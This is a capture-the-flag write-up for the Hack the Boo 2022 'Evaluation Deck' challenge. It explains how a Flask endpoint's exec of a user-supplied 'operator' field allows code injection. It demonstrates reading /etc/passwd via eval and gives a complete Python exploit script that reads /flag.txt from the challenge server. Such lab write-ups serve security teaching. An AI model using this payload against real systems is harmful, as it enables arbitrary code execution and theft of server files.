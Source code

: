 # Evaluation Deck
Hack the Boo 2022

## Description

```
A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. 
The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?
```

## Challenge Explanation

For this challenge, we get a webpage as well as the backend source code for the web server.

The Dockerfile for the web server shows that a file called `flag.txt` was placed in the root directory of the web server when it was containerized, so our goal will likely be to read that file on the victim's machine.

## The Vulnerability

The web server for this challenge is running using Flask, a lightweight Python framework for building websites. There are all of the basic files that you'd expect from a Flask server, setting up templates and routes.

It looks like whenever we flip a card in the game, the application sends an API request to the server to run the calculations for the damage we do to the enemy. This behaviour is defined in `routes.py`:

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

We can see that when you hit the `/get_health` endpoint, the server takes three parameters, `current_health`, `attack_power`, and `operator`, then uses them to calculate the enemy's new health.

However, it's doing these calculations using Python's `eval` function. This function can take strings and arguments, and interpret them as mathematical symbols. For example:

```
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> equation = "2 + 5"
>>> eval(equation)
7
>>> 
```

However, `eval` is not limited just to doing simple math problems. It actually interprets the string as code, which means that you can use it to run other Python statements. Here's an example using `eval` to read the contents of `/etc/passwd`:

```
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> equation = "open('/etc/passwd').read()"
>>> eval(equation)
'root:x:0:0:root:/root:/bin/bash\ndaemon: ...
...
...
...
>>>
```

This is super dangerous. Because the web server is using `eval`, we essentially have a pathway to arbitrary code execution.

## The Solution

### Solution Overview

The goal here is to carefully craft values for `current_health`, `operator`, and `attack_power` so that we can exploit this part of the code:

```python
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

I noticed that both `current_health` and `attack_power` were being cast to integers, so I figured that it would be a good starting place to find a way to convert the contents of `flag.txt` into an int. I wrote a line of code that would open the `flag.txt` file and read it. Then it would take each character in the file, convert it to its ASCII value, and concatenate it. This should give us one huge int that represents the entire flag as ASCII:

```
ascii_flag = ''.join(str(ord(char)) for char in open('/flag.txt', 'r').read())

```
The easiest thing to do would be to send this as the `current_health` parameter. Then, I could send `+` for the operator, and `1` for the `attack_power`. Hopefully, the server will end up sending me back `ascii_flag + 1`, which I could then convert back into text.

However, it wasn't quite this simple. Python was trying to convert the actual string `"''.join(str(ord(char)) for char in open('/flag.txt', 'r').read())"` as an int, which obviously didn't go great. Time to tweak the exploit.

The `operator` field isn't converted to an `int`, so I decided to move my payload into there. This was slightly more complex, becasuse it requires you to figure out how the `operator` field would interact with the arguments on either side of it:

```
operator="""+ int(''.join(str(ord(c)) for c in open('/flag.txt', 'r').read())) +"""

```

Now, we can set both `current_health` and `attack_power` to be 1, and the server will run `1 + ascii_flag + 1`. Note that they can't be 0, because that will fail this check in the source code:
```python
if not current_health or not attack_power or not operator:
    return response('All fields are required!'), 400
```

### Implementation

Here is the full exploit, in Python:

```python
import requests

current_health=1
operator="""+ int(''.join(str(ord(c)) for c in open('/flag.txt', 'r').read())) +"""
attack_power=1

payload={"current_health":current_health, "operator":operator, "attack_power":attack_power}


target="http://167.99.202.139:30194/api/get_health"

p = requests.post(target, json=payload)
print(p.text)
```

When we run it, we get back a big number as `p.text`. I could have written some code to transform this back into ASCII characters, but it was easier to just subtract 2 and toss it into an online converter like Cyberchef. Here's what you get:

```
HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```
Success!